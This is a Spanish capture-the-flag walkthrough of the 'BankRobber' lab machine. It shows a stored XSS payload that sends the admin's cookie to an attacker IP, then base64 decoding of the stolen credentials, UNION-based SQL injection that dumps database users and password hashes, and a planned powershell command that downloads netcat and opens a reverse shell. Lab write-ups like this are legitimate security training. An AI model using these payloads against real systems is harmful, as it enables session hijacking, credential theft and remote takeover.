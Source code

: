 ## Vulnerability Assessment {-}

### z {-}

Testeamos que accion puede efectuar el administrador y por el mismo tiempo, si el input de comment es vulnerable a un **XSS**.

1. Nos montamos un servidor web en python

    ```bash
    python3 -m http.server 80
    ```

1. Modificamos los valores de la transferencia

    ```bash
    Amount: 1
    ID of Addressee: 1
    Comment to him/her: <script src="http://10.10.17.51/diamondjackson.jpg"></script>
    ```

Aqui vemos que esta vulnerable a XSS porque recibimos una peticion GET.


La idea aqui seria robar la cookie de session del administrador.

1. Checkeamos nuestra propria cookie de session con Burpsuite

    ```r
        knitr::include_graphics("images/BankRobber-mycookie.png")
    ```

1. Como la cookie esta URL encodeada le damos a Ctrl+Shift+U y copiamos la cookie
1. Analyzamos la cookie

    - Tiene 3 campos, *id* - *username* - *password*
    - Decodificamos el username

        ```bash
        echo "czR2aXRhcg==" | base64 -d; echo
        #Output
        s4vitar
        ```
    
    - Decodificamos el password

        ```bash
        echo "czR2aXRhcjEyMw==" | base64 -d; echo
        #Output
        s4vitar123
        ```

    Aqui vemos que la cookie unicamente esta encryptada en base64.

1. Intentamos robar la cookie del admin.

    - Creamos un fichero test.js

        ```javascript
        var request = new XMLHttpRequest();
        request.open('GET', 'http://10.10.17.51/?cookie='+document.cookie, true);
        request.send();
        ```

    - Creamos un servidor web con python

        ```bash
        python3 -m http.server 80
        ```

    - Modificamos nuevamente los valores de la transferencia
    
        ```bash
        Amount: 1
        ID of Addressee: 1
        Comment to him/her: <script src="http://10.10.17.51/test.js"></script>
        ```

    Aqui ya vemos la cookie de session del administrador.

1. Decodificamos la cookie del admin.

    ```bash
    php --interactive
    php > echo urldecode("username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D")
    #Output
    username=YWRtaW4=; password=SG9wZWxlc3Nyb21hbnRpYw==

    echo "YWRtaW4=" | base64 -d; echo
    #Output
    admin

    echo "SG9wZWxlc3Nyb21hbnRpYw==" | base64 -d; echo
    #Output
    Hopelessromantic
    ```

1. Nos conectamos a la web como el usuario admin.

Hay un link user.txt que nos muestra un mensaje TODO que seria de mover todos los ficheros al Default Xampp folder.
Buscando por internet vemos que este directorio seria `C:\xampp\htdocs`.

En la pagina principal, vemos un panel de administracion. Aqui vemos 2 cosas,

- Un campo que nos permitiria ejecutar comandos en la maquina victima
- Un campo Search users que es en beta. Nos permite buscar usuarios por su ID

El campo para ejecutar comandos no funcciona porque tendriamos que estar loggeado desde la maquina victima atacando este servicio por localhost.
Ademas con Burpsuite, vemos que esta utilidad lanza una peticion a `/admin/backdoorchecker.php` con un parametro `cmd=...`

Como no podemos hacer gran cosa por el momento, analyzamos el campo de busqueda de usuarios.

```bash
1 -> admin
2 -> gio
3 -> s4vitar
1' -> There is a problem with your SQL syntax
```

### SQL Injection {-}

```bash
1' or 1=1-- - 
#Output
1,admin
2,gio
3,s4vitar
```

Seguimos la guia normal de un SQLI

1. Cuantas columnas hay

    ```bash
    1' order by 100-- -         -> There is a problem with your SQL syntax
    1' union select 1,2-- -     -> There is a problem with your SQL syntax
    1' union select 1,2,3-- -
    #Output
    1,admin
    1,2
    ```

    Vemos que hay 3 columnas y vemos la 1 y la 2.

1. Cual es la base de datos

    ```bash
    1' union select 1,database(),3-- -
    #Output
    1,admin
    1,bankrobber
    ```

1. Cual es el usuario que esta actualmente coriendo la base de datos

    ```bash
    1' union select 1,user(),3-- -
    #Output
    1,admin
    1,root@localhost 
    ```

1. Cual es la version de la base de datos

    ```bash
    1' union select 1,version(),3-- -
    #Output
    1,admin
    1,10.1.38-MariaDB
    ```

1. Cual son las otras bases de datos que existen

    ```bash
    1' union select 1,schema_name,3 from information_schema.schemata-- -
    #Output
    1,admin
    1,bankrobber
    1,information_schema
    1,mysql
    1,performance
    1,phpmyadmin
    1,test
    ```

    S4vi nos adelanta que en la base de datos de bankrobber estan unas credenciales de usuarios, pero que no nos sirben porque ya somos admin.
    miramos por la db mysql

1. Buscamos credenciales

    ```bash
    1' union select 1,group_concat(User,0x3a,Password),3 from mysql.user-- -
    #Output
    1,admin
    1,root:*F435735A173757E57BD36B09048B8B610FF4D0C4
    ```

1. Crackeo de hash con john

    ```bash
    echo "root:*F435735A173757E57BD36B09048B8B610FF4D0C4" > credentials.txt
    john --wordlist=/usr/shar/wordlists/rockyou.txt credentials.txt
    ```

    Vemos que no podemos romper el hash

1. Intentamos leer ficheros

    ```bash
    1' union select 1,load_file("C:\\Windows\\System32\\drivers\\etc\\hosts"),3-- -
    ```

    El fichero `\etc\hosts` no nos interesa en este caso pero hemos podido comprobar si podiamos leer ficheros.


    miramos por el fichero `C:\\xampp\\htdocs\\admin\\backdoorchecker.php` y podemos ver la manera de ejecutar comandos bypasseando los badchars.


La idea aqui seria de ejecutar un comando de typo `cmd=dir|powershell -c "iwr -uri http://10.10.17.51/nc.exe -Outfile %temp%\\nc.exe";%temp%\\nc.exe -e cmd 10.10.17.51 443`.
El problema aqui sigue siendo el echo de no poder lanzar este comando porque no estamos lanzando esta peticion desde el localhost de la maquina victima.


